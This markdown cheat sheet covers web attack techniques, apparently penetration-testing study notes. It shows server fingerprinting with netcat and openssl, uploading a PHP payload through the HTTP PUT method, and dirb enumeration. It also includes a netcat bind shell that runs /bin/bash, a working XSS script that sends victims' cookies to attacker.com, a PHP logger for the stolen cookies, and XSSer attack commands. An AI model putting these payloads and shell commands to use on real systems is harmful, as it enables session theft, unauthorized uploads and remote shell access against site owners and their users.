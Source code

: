 # Web Attacks

## Fingerprinting with Netcat

Netcat can be used to fingerprint the web server, it acts as both client and server.

```
nc <target> 80
HEAD / HTTP/1.0
```
Limitation with Netcat is that it cannot connect to HTTPS connections, So to connect to the HTTPS connection we can use **_OpenSSL_** command line tool.

## Fingerprinting with OpenSSL

```
openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

## Fingerprinting with Httprint

**_Httprint_** is a web server fingerprinting tool that uses a signature-based technique to identify web servers.

```
httprint -P0 -h <target hosts> -s <signature file>
```


* -P0 : Do not ping.
* -h  : Target hosts.
* -s  : set signature file to use.
* signature file location : ```/usr/share/httprint/signature.txt```

## HTTP Verbs

The most common HTTP methods are:

* GET   : used to request resources from web server
* POST  : used to submit form data to web server
* HEAD  : only asks for headers of the response, excludes body
* DELETE: used to remove a file/data from the server
* PUT   : used to **upload** file to the server
    
    To exploit the **PUT** method attacker needs to know the exact file uploading to the server. This can be done by using **_wc_** (word count) utility with **_-m_** parameter in linux.
    
    ```wc -m payload.php```
    
    After creating the payload and determining its size, use the following command to upload the payload to the server.
    
    ```
    nc target.com 80
    PUT /payload.php HTTP/1.0
    Content-type  : text/html
    Content-length  : 20
    
    <?php phpinfo(); ?>
    ```

## Netcat

```nc -lvp 8888``` Listener client

```nc -v 127.0.0.1 8888``` Server

Netcat udp connection

```nc -lvup 9999``` Listener client

```nc -vu 127.0.0.1 9999``` Server

Send or receive data through a file

```nc -lvp 8888 > received.txt``` Listener client

```echo "Hello" | nc -v 127.0.0.1 8888``` Server

Obtain remote **Bind Shell** using **Netcat**

```nc -lvp 8888 -e /bin/bash``` Listener client

```nc -v 127.0.0.1 8888``` Server

## Dirb

Dirb is a command line tool for enumerating directories and files.

Basic usage command, when not specified wordlist it uses by default wordlist for enumeration.

```dirb http://target.com```

Dirb wordlist location

```/usr/share/dirb/wordlists```

Usage with custom wordlist

```dirb http://target.com /usr/share/dirb/wordlists/common.txt```

[Seclists](https://github.com/danielmiessler/SecLists) wordlists collection

Dirb options:

```-a : custom user agent``` [useragents list](http://useragentstring.com/pages/useragentstring.php)

```dirb http:target.com -a "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:77.0) Gecko/20190101 Firefox/77.0"```

```
-p : proxy option
dirb http://192.168.121.12 -p http://127.0.0.1:8080
```

```
-c : authentication using cookie
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -c "COOKIE:XYZ"
```

```
-u : basic HTTP authentication, uses username and password combination
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -u "admin:password"
```
```
-H : add custom header to HTTP request
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -H "HeaderName: HeaderValue"
```

```-r :Don't search recursively```

```
-z : delay timing
dirb http://192.168.121.12 -z 1000
```

```
-S : silent mode
dirb http://192.168.121.12 -S
```

```
-X : extensions
dirb http://192.168.121.12 -X ".php,.bak"

-x : extensions list
dirb http://192.168.121.12 -x extensions.txt
```

## Google Hacking

Google hacking or Google Dorks is a technique to use Google's advance query commands to discover specific files and directories on a website.

```
inurl:admin intitle:login
site: example.com
intitle: login
filetype: pdf
```

## Cross Site-Scripting

The XSS vulnerability occurs when the web application accepts unfiltered user input to build the output content displayed to its end users. Thus attacker can inject malicious HTML and Javascript code to attack the end users of the application.

Web app can be affected by user input in any of the parameter coming from the client side such as:

*   Request Headers
*   Cookies
*   Form Inputs
*   POST parameters
*   GET parameters

Stealing cookie via XSS

```
    <script>
        var i = new Image();
        i.src="http://attacker.com/log.php?q="+escape(document.cookie);
    </script>
---------------------------------------------------------------------------------------------------------
log.php

    <?php
        $filename="/tmp/log.txt";
        $fp=fopen($filename,'a');
        $cookie=$_GET['q'];
        fwrite($fp, $cookie);
        fclose($fp);
    ?>
```

Practice on [Hack.me](https://hack.me/)

XSS using XSSer

Validating if vulnerable to XSS

```
xsser --url 'http://target.com/index.php?page=search.php' -p 'search=XSS&submit=search'
```

Trying XSSer payloads with **_--auto_** option

```
xsser --url 'http://target.com/index.php?page=search.php' -p 'search=XSS&submit=search' --auto
```

Using custom XSS payload

```
xsser --url 'http://target.com/index.php?page=search.php' -p 'search=XSS&submit=search' --Fp "<script>alert(1)</script>"
```

Then test with the Final Attack link in the browser.
